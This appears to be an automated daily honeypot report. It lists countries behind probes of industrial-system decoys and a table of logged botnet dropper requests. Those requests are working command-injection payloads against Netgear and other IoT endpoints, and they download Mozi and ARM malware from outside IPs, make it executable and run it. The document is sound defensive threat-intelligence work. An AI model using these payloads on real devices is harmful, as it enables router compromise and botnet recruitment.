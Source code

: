 ```yaml
---
title: "Report: 2025-02-22 "
date: 2025-02-22
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-22
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| DE               | Germany            |
| PL               | Singapore          |
| FR               | Singapore          |
| PL               | Australia          |
| FR               | Australia          |
| US               | Dubai              |
| US               | Israel             |
| BG               | Israel             |
| BG               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                    |
|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 185.224.0.235   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=cd+/tmp;rm+-rf+*;wget+http://94.156.227.74/wget.sh;chmod+777+wget.sh;sh+wget.sh+netgear;&curpath=/&currentsetting.htm=1; HTTP/1.1     |
| 117.206.72.136  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.206.72.136:35101/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0              |
| 185.224.0.235   | GET /board.cgi?cmd=cd+/tmp;rm+-rf+*;wget+http://66.63.187.69/wget.sh;chmod+777+wget.sh;sh+wget.sh+varcron; HTTP/1.1                                                                        |
| 156.229.232.174 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Bwget%20http%3A%2F%2F66.63.187.69%2Ft%3Bchmod%20%2Bx%20t%3Bsh%20t HTTP/1.1                                   |
| 185.224.0.235   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=cd+/tmp;rm+-rf+*;wget+http://66.63.187.69/wget.sh;chmod+777+wget.sh;sh+wget.sh+netgear;&curpath=/&currentsetting.htm=1 HTTP/1.1       |
| 45.115.89.144   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                      |
| 117.242.197.118 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.242.197.118:49067/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0             |
| 91.224.92.10    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.125.66.124%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
| 194.85.251.34   | GET /shell?cd+/tmp;rm+-rf+g4za.arm7;nohup+wget+http:/\x5C/185.232.205.104/bins/g4za.arm7;chmod+777+g4za.arm7;./g4za.arm7;ulimit+-n+99999;ulimit+-u+99999;ulimit+-l+99999 HTTP/1.1          |
| 103.130.214.244 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                              |
